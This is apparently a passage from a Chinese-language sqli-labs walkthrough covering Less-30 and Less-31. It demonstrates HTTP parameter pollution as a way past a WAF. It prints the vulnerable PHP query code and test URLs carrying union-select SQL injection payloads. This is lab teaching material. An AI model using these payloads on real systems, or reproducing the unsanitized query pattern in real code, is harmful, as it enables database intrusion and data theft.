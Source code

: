 测试

/sqli-labs/Less-30/index.jsp?id=1&id=-2"union select 1,user(),3–+



Less-31 盲注型过waf
源代码（index.php）

 $qs = $_SERVER['QUERY_STRING'];
 $hint=$qs;
 $id = '"'.$id.'"';

 // connectivity 
 $sql="SELECT * FROM users WHERE id= ($id) LIMIT 0,1";
 $result=mysql_query($sql);
 $row = mysql_fetch_array($result);
1
2
3
4
5
6
7
8
测试

/sqli-labs/Less-31/index.jsp?id=1&id=-2")union select 1,user(),3–+



总结：从以上三关中，我们主要学习到的是不同服务器对于参数的不同处理，HPP 的应用有很多，不仅仅是我们上述列出过 WAF 一个方面，还有可以执行重复操作，可以执行非法操作等。同时针对WAF 的绕过，我们这里也仅仅是抛砖引玉，后续的很多的有关HPP 的方法需要共同去研究。这也是一个新的方向


